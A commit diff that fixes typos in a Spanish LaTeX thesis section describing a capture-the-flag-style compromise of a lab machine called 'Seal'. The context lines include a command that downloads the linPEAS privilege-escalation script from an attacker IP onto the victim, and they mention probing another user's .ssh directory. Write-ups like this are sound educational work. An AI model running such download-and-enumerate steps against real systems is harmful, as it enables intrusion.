

Before and after one commit to VictorNS69/TFM, a LaTeX paper (Main.tex, which reads sections/machines/seal.tex): two parts of page 33 of 40, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
fixe typos

```diff
--- a/sections/machines/seal.tex
+++ b/sections/machines/seal.tex
@@ -203,7 +203,7 @@ A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peass}.
 python -m http.server 8000
 \end{lstlisting}
 
-Y en la máquina víctima nos lo vajamos con \texttt{wget}.
+Y en la máquina víctima nos lo bajamos con \texttt{wget}.
 
 \begin{lstlisting}[language=bash]
 wget http://10.10.14.49:8000/linpeas.sh
@@ -217,7 +217,7 @@ El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TF
 
 Se ha intentado acceder a los archivos de \textit{luis}, como son \texttt{/home/luis/}, \texttt{/home/luis\\/.ssh} o \texttt{/home/luis/documents}, pero no se ha logrado nada, ya que con el usuario actual (\textit{tomcat}) no tenemos permisos.\\
 
-Dada la falta de exito investigando al usuario \textit{luis}, se decide investigar los archivos y directorios ``extraños`` meniconados anteriormete. En \texttt{/opt/backups/playground} se ha encontrado un archivo \texttt{run.yml} (figura \ref{fig:seal-run}). Se ha investigado en \textit{Google} y se ha encontrado que es un \textit{Ansible Playbook}\cite{ansible-playbooks}. Leyendo el archivo \texttt{run.yml}, vemos que realiza un backup del directorio \texttt{/var/lib/tomcat9/webapps/ROOT/admin\\/dashboard}.\\
+Dada la falta de exito investigando al usuario \textit{luis}, se decide investigar los archivos y directorios ``extraños`` mencionados anteriormente. En \texttt{/opt/backups/playground} se ha encontrado un archivo \texttt{run.yml} (figura \ref{fig:seal-run}). Se ha investigado en \textit{Google} y se ha encontrado que es un \textit{Ansible Playbook}\cite{ansible-playbooks}. Leyendo el archivo \texttt{run.yml}, vemos que realiza un backup del directorio \texttt{/var/lib/tomcat9/webapps/ROOT/admin\\/dashboard}.\\
 
 \begin{figure}[h]
     \centering
```
Also changed, not shown: sections/machines/seal.tex (2 more changed lines).
